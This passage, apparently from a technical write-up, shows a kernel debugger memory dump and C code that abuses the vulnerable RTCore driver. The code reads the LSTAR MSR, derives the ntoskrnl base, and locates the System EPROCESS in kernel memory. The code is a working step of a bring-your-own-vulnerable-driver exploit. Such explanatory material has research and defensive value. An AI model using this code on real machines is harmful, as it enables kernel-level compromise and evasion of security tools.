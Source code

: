 ```
ffffe60d`276b1378  53 79 73 74 65 6d 00 00-00 00 00 00 00 00 00 02  System..........
ffffe60d`276b1388  00 00 00 00 00 00 00 00-10 55 69 27 0d e6 ff ff  .........Ui'....
ffffe60d`276b1398  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe60d`276b13a8  00 00 ff ff ff 7f 00 00-f8 35 72 27 0d e6 ff ff  .........5r'....
ffffe60d`276b13b8  b8 d5 89 2c 0d e6 ff ff-98 00 00 00 00 00 00 00  ...,............
ffffe60d`276b13c8  05 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffe60d`276b13d8  00 00 00 00 00 00 00 00-b4 00 00 00 00 00 00 00  ................
ffffe60d`276b13e8  03 17 00 00 00 00 00 00-df 91 01 00 00 00 00 00  ................
```

We can do this programmatically like so:

```c
int main(int argc, char* argv[]) {

	HANDLE RTCORE_DEVICE = CreateFile(
		DEVICE_NAME,
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING, 
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	RTCORE_MSR_READ MsrRead;
	MsrRead.Register = LSTAR_MSR;
	DWORD BytesReturned;

	DeviceIoControl(
		RTCORE_DEVICE,
		RTCORE_READMSR_IOCTL, 
		&MsrRead, 
		sizeof(MsrRead),
		&MsrRead,
		sizeof(MsrRead),
		&BytesReturned,
		NULL
	);

	// LSTAR + ntoskrnl base
	DWORD64 lstar_value = ((uint64_t)MsrRead.ValueHigh << 32) | MsrRead.ValueLow;
	printf("[+] LSTAR MSR (nt!KiSystemCall64Shadow): 0x%llx\n", lstar_value);

	// CHANGE THIS FOR YOUR WINDOWS VERSION
	DWORD64 kisystemcall64shadowOffset = 0xbac200; // ? nt!KiSystemCall64Shadow - nt
	DWORD64 ntoskrnlBase = lstar_value - kisystemcall64shadowOffset;
	printf("[+] ntoskrnl base: 0x%llx\n", ntoskrnlBase);

	// PsInitialSystemOffset
	DWORD64 PsInitialSystemProcessOffset = GetFunctionOffsetFromNtoskrnl("PsInitialSystemProcess");
	DWORD64 PsIntitialSystemProcessVA = ntoskrnlBase + PsInitialSystemProcessOffset;

	printf("[+] PsInitialSystemProcess address: 0x%016llx\n", PsIntitialSystemProcessVA);

	// Static offset (Win11 24H2)
	// CHANGE THIS FOR YOUR WINDOWS VERSION
	int offsetImageFileName = 0x338;

	DWORD64 SystemEPROCESSAddress = ReadMemoryDWORD64(RTCORE_DEVICE, PsIntitialSystemProcessVA);
	DWORD64 SystemImageFileNameAddress = SystemEPROCESSAddress + offsetImageFileName;
	printf("[+] System EPROCESS address: 0x%016llx\n", SystemEPROCESSAddress);
	printf("[+] System ImageFileName address: 0x%016llx\n", SystemImageFileNameAddress);
```